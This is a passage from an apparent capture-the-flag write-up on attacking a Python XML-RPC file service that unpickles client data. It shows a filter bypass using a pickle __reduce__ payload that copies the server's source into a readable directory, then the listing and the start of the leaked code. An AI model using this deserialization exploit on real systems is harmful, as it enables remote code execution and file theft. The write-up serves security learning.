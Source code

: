 ```
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Hacking attempt detected! Your IP address has been traced, an FBI team will soon arrive to your location. Please stay where you are and wait for your arrest.">
```

Oops, it caught us! But since the security of this service seems based on simple filters, let's try to bypass it. After all, we don't need a shell, we can run any Python code we want.

```
>>> class Exploit(object):
...   def __reduce__(self):
...     import shutil
...     return (shutil.copyfile, ('./server.py', './fileserver/server.py'))
...
>>> s.setstate(dumps(Exploit()).encode('base64'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/xmlrpclib.py", line 1224, in __call__
    return self.__send(self.__name, args)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1578, in __request
    verbose=self.__verbose
  File "/usr/lib/python2.7/xmlrpclib.py", line 1264, in request
    return self.single_request(host, handler, request_body, verbose)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1297, in single_request
    return self.parse_response(response)
  File "/usr/lib/python2.7/xmlrpclib.py", line 1473, in parse_response
    return u.close()
  File "/usr/lib/python2.7/xmlrpclib.py", line 793, in close
    raise Fault(**self._stack[0])
xmlrpclib.Fault: <Fault 1: "<type 'exceptions.ValueError'>:Invalid state data">
```

There! Out exploit is no longer detected. The error message is fine, we're sending it crap, but let's check if the code injection worked.

```
>>> s = ServerProxy("http://target:12345/fileserver", transport=t, allow_none=True)
>>> s.listdir()
['flag.txt', 'server.py']
```

It worked! Now we can read the file with the read() method.

```
#!/usr/bin/env python

from cPickle import loads, dumps
from hashlib import sha1
from os import listdir, unlink
from os.path import abspath, dirname, join
from random import WichmannHill
from SimpleXMLRPCServer import MultiPathXMLRPCServer, SimpleXMLRPCRequestHandler, SimpleXMLRPCDispatcher

class RandomServer(object):

    def __init__(self):
        self.rnd = WichmannHill()

    def seed(self, num):
        """Set the seed for the random number generator."""
        self.rnd.seed(num)

    def random(self):
        """Get a random number."""
        try:
            return self.rnd.random()
```